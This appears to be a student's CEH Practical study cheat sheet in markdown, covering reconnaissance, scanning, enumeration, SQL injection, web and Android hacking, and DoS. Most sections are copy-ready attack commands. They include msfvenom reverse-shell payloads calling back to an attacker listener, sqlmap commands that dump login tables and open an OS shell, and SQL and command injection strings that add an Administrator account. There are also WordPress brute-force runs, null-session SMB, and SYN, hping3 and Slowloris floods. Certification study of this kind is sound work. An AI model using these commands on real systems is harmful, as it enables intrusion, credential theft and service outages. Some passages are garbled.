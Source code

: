 ## 2)Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## 3)Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 

-  ### Tools:
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/248179ca-8bb3-4bf4-ba33-c6520e0054df)

</details>


## 4)Enumeration
<details>
    <summary>Enumeration</summary>

###  1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## 5) Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

### Nessus Vulnerability Scanner
-
```bash

```
### Nikto
-
```bash
nikto -h url -Cgidirs all
```
</details>

## 17) Android Hacking
<details>
    <summary>Android Hacking</summary>

    
### ADB
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```

#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```

### Phonesploit
- Refer README.md
  
</details>

## 15) SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- 
```
</details>

## Malware Threats
<details>
    <summary>Malware Threats </summary>
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/66f39b98-d3e1-4070-ae52-ef89fb2c6183)

 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/69d2c29b-24b6-451c-8f49-d2aa832b9855)
 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/d6015e48-a7cd-4370-994f-f56cce36f07e)
 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/7a2cfc60-85a8-477d-9a31-1fc31bfcf94e)
 
</details>


## 8) Sniffing
<details>
    <summary> Wireshark</summary>
      - Some useful wireshark command 
```
filter : http
option --> find packet->> select string --> pwd  // to find pwd string in packets
```
=======================================================================================================================================================================
- Sets a filter for any packet that has x.x.x.x as the source or destination IP address. This is very useful if, let’s say, you want to analyze specific traffic. Applying this filter helps you analyze outgoing traffic to see which one matches the IP or source you’re looking for.
```
ip.addr == x.x.x.x
``` 
 
- You can also choose to use ``` ip.dst == x.x.x.x```  to filter only by destination or ``` ip.src == x.x.x.x ``` to filter by source.
 
- Sets a conversation filter between two specific IP addresses. This one helps you check the data between two specific hosts or networks. It helps you when you are looking for specific data, so you don’t have to go through others that don’t interest you. 
 ```
ip.addr == x.x.x.x && ip.addr == x.x.x.x 

(or ip.src == xxxx && ip.dst == xxxx - for a destination)
``` 

Sets a filter to display all http and dns protocols. It lets you narrow down to the exact protocol you need. So, if you need to track down an odd FTP traffic, then you just have to set it for ‘ftp’. Want to find out why some websites don’t appear? You just have to set it to ‘dns’.
```
http or dns
```


tcp.port==xxx

Sets filters for any TCP packet with a specific source or destination port. Sometimes is just useful and less time consuming to look only at the traffic that goes into or out of a specific port.

 
- Sets filters to display all TCP resets. All packets have a TCP, if this is set to 1, it tells the receiving computer that it should at once stop using that connection. So, this filter is a powerful one, being that a TCP reset kills a TCP connection immediately.
- 
tcp.flags.reset==1



 

tcp contains xxx

It’s a filter that displays all TCP packets that contain a certain term (instead of xxx, use what term you’re looking for). For example, if you are looking for a specific term appearing in the packet, this filter is what you need.

 
- Follows a tcp stream.
```
tcp.stream eq X
```

- Filters by sequence number.
```
tcp.seq == x
```
 
- Important for troubleshooting, this filter detects push events.
``` 
tcp.flags.push == 1
```

- This one filters all HTTP GET and POST requests. It can show the most accessed webpages.
````
 http.request
 ````

- Designed to filter out certain types of protocols, it masks out arp, icmp, dns, or other protocols you think are not useful. This will allow you to focus of what traffic interests you.
```
 !(arp or icmp or dns)
 ```

- It sets a filter for certain HEX values at any offset.
```
udp contains xx:xx:xx
```


 
- Indicates which dns requests couldn't be correctly resolved.
 ```
dns.flags.rcode != 0
 ```

</details>

</details>


## 9)Social Engineering
<details>
    <summary>Social</summary>

### Tool: Social Engineering Toolkit(linux)

</details>

## 10)DOS
<details>
    <summary>
        DoS 
    </summary>
- Spoof IP
- SYN Flooding
```
use auxiliary/dos/tcp/synflood
show options
SYN flooding on port 4444
set timeout 20000 //rest as shown in option
```
   
</details>

## 11)Session Hijacking
<details>
    <summary>Session Hijacking</summary>


</details>

## 14)Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.
### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

### 3) WPScan
- SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

- Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
    
```
### 4) RCE
- In DVWA application to ping.
```bash
| hostname  //name of target machine
| whoami   // user,groups,privileges
| tasklist  //lists running process
| dir C:\
| net user
| net user Test /Add
| net user 
| net user Test //displays info about user Test
| net localgroup Administrators Test /Add
| net user Test //now it's in Administrator

```
- To launch Remote Desktop Connection, navigate to ```Start--> Windows Accessories--> Remote Desktop Connection```

### 5)Web Application Framework
<details>
<summary> Auditing </summary>

#### Tools: Vega(Linux)
- Enter URL --> select Injection and Response modules --> click yes --> check Scan summary


###  WVS 
#### Tool: Acunetics WVS

</details>

### 6) File Upload Vulnerbility
-  ``` msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw ```  
- This command will generate a php raw payload.
- copy the payload and make a .php file
-  ```msfconsole``` . Now you have to establish a meterpreter session with your victim
```
Type use multi/handler and hit Enter.
Type set payload
php/meterpreter/reverse_tcp and hit
Enter.
Type set lhost 10.10.10.11 and hit Enter.
set Iport 4444
and hit Enter.
- vist the uri where the file is to execute on web browser
```
</details>



## 18)IOT Hacking
<details>
    <summary>IOT</summary>
    
### Tools:
- Shodan.io

- CRITIFENCE
```
 CRITIFENCE is an online database that stores default passwords of critical infrastructure, SCADA, [CS, and 110T Attackers can use this tool to discover
the default credentials of an OT system It lists information such as product code, vendor, device type and its default username and password
  ```
- Nmap
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/dbe2d60e-4af9-4376-b4ed-baa7e21dee5d) // nmap different types of scans.

- Scada
    - SCADA Shutdown Tool is an ICS testing and automation tool that allows attackers to fuzz, scan, and run remote commands on ICS/SCADA networks and controllers
    - Attackers use this tool to examine and enumerate slave controllers and SCADA security systems as well as read register values of the controller and rewrite register data.
      
- #### Other Tools
      - Nessus
      - wireshark
</details>

## 19)Cloud Computing
<details>
    <summary>Bypassing Antivirus</summary>

```
In the terminal type: 
msfvenom -p linux/x86/shell/reverse_tcp LHOST=IO.IO.IO.11  LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf  
//  -f elf shows the type of payload file we want to create
This will generate exploit.elf on Desktop
```
- upload it it share folder 
- capture request in msfconsole:
```
 use multi/handler
set payload linux/x86/reverse_tcp 
LHOST = xx.xx.xx.xx
LPORT = 4444
```

</details>


<details>
    <summary>DoS using Slowloris</summary>
 
- Capture request using wireshark
- In Terminal
    
```
cd /Desktop/Slowloris
ls  // slowloris.pl
./Slowloris.pl -dns xx.xx.xx.xx
Hence the Dos attack was executed.

```
</details>
    
## 20)Cryptography    
<details>
    <summary>Cryptography</summary>
</details>

## Host DIscovery
<details>
    <summary>Hsot Discover</summary>
```
ARP Ping Scan:           nmap -sn -PR <Target IP Address>    ARP request probe
UDP Ping Scan:           nmap -sn -PU <Target IP Address>    UDP request
ICMP ECHO Ping Scan:     nmap -sn -PE <Target IP Address>    ICMP LCBO request

</details>

#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>
  
- [Reference Guide](https://certmaster.me/a-detailed-guide-on-responder-llmnr-poisoning-22f3a07b9786?gi=809a695ee049):

  </details>
